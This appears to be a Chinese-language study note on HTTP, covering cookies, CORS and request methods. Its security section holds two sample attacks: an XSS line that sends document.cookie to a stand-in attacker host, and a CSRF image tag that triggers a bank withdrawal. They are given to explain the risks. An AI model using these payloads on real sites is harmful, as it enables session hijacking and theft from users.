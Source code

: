 ### 3. HTTP Cookies
HTTP Cookie是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务器两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为可能。

#### 3.1 创建Cookie
服务器可以在响应头里添加一个`Set-Cookie`选项，浏览器收到响应后会保存下Cookie，之后每一次请求中都通过`Cookie`请求头部将Cookie信息发送给服务器。
- Set-Cookie
```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
// Expire         过期时间
// Secure         只能通过HTTPS协议加密过的请求发送给服务端
// HttpOnly       为避免跨域脚本(XSS)攻击，通过JS的Document.cookie无法访问带有HttpOnly标记的cookie
// Cookie的作用域  cookie应该发送给哪些URL，可以指定Domain和path
```
- JS创建和访问cookie
```
document.cookie = "yummy_cookie=choco";
console.log(document.cookie);
```

#### 3.2 安全
- 会话劫持和XSS
```
(new Image().src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie)
```
- 跨站请求伪造(CSRF)
当你打开这张图片时，如果你已经登录了你的银行账号并且cookie仍然有效，请求将发出
```
<img src="http://bank.example.com/withdraw?account=bob&amount=10000&for=mallory">
```
<br>

### 4. HTTP访问控制(CORS)
跨域资源共享(CORS)是一种机制，当一个资源与该资源本身所在的服务器不同的域或端口请求一个资源时，资源会发起一个跨域HTTP请求。出于安全原因，浏览器限制从脚本内发起的跨域请求。XMLHttpRequest和Fetch API遵循同源策略。

**XMLHttpRequest跨域访问原理**：预检请求，`withCredentials:true`
<br>

### 5. HTTP请求方法
method| |
---|:--:
GET     | 获取数据
HEAD    | 请求一个与get请求的响应相同的响应，但没有响应体
POST    | 将实体提交到指定的资源，通常导致状态或服务器上的更改
PUT     | 请求有效载荷替换目标资源的所有当前表示
DELETE  | 删除指定资源
CONNECT | 建立一个由目标资源标识的服务器的隧道
OPTIONS | 描述目标资源的通信选项
TRACE   | 沿着目标资源的路径执行一个消息环回测试
PATCH   | 对资源应用部分修改
<br>
